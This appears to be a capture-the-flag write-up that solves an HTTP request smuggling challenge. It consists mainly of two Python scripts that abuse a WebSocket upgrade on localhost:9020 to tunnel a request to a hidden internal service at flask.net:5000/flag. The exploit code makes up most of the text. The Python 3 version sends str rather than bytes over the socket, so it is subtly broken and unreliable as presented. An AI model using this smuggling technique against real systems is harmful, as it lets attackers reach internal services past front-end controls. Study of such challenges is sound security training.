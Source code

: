 
<p align="center">
<img width="600" src="../static/solution.png">
</p>

 This one is a more difficult variant of HTTP request smuggling. To access the target API and Page in the hidden network we need to write an Exploit. You can use the one below (with Python2...pain or gain)

  ```python
  import socket 

  req1 = """GET /socket.io/?EIO=3&transport=websocket HTTP/1.1
  Host: localhost:9020
  Sec-WebSocket-Version: 13
  Upgrade: websocket
  Connection: Upgrade

  """.replace('\n', '\r\n')


  req2 = """GET /flag HTTP/1.1
  Host: flask.net:5000

  """.replace('\n', '\r\n')

  def main(netloc):
      host, port = netloc.split(':')

      sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      sock.connect((host, int(port)))

      sock.sendall(req1)
      data = sock.recv(4096)
      print(data)

      sock.sendall(req2)
      data = sock.recv(4096)
      data = data.decode(errors = 'ignore')

      print(data)

      sock.shutdown(socket.SHUT_RDWR)
      sock.close()

  if __name__ == "__main__":
      main('localhost:9020')
```


<p align="center">
<img width="600" src="../static/haha.gif">
Python 2 ... is not dead yet - anyway was just kidding. The Python 3 variant is below:
</p>

```python
#!/usr/bin/env python3
import socket

req1 = """GET /socket.io/?EIO=3&transport=websocket HTTP/1.1
Host: localhost:9020
Sec-WebSocket-Version: 13
Upgrade: websocket
Connection: Upgrade

""".replace('\n', '\r\n')


req2 = """GET /flag HTTP/1.1
Host: flask.net:5000

""".replace('\n', '\r\n')

def main(uri):
    host, port = uri.split(':')

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((host, int(port)))

        sock.sendall(req1)
        data = sock.recv(4096)
        print(data)

        sock.sendall(req2)
        data = sock.recv(4096)
        data = data.decode(errors = 'ignore')

        print(data)

        sock.shutdown(socket.SHUT_RDWR)

if __name__ == "__main__":
    main('localhost:9020')
```


